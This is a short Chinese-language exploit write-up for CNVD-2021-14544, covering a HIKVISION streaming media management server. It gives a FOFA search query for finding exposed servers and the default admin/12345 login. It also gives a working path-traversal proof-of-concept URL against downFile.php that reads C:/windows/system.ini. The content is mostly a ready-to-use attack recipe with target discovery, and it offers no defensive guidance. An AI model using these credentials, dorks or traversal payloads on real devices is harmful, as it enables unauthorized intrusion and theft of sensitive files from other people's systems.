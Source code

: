 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>HIKVISION 流媒体管理服务器</a-checkbox></br>

## FOFA

<a-checkbox checked>title="流媒体管理服务器"</a-checkbox></br>

## 漏洞复现

登录页面如下， 默认账号密码为 **admin/12345**



![img](../../../.vuepress/public/img/hiv-5.png)



POC如下，访问如下Url下载 system.ini文件



```plain
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```



![img](../../../.vuepress/public/img/hiv-6.png)



成功读取 **C:/windows/system.ini**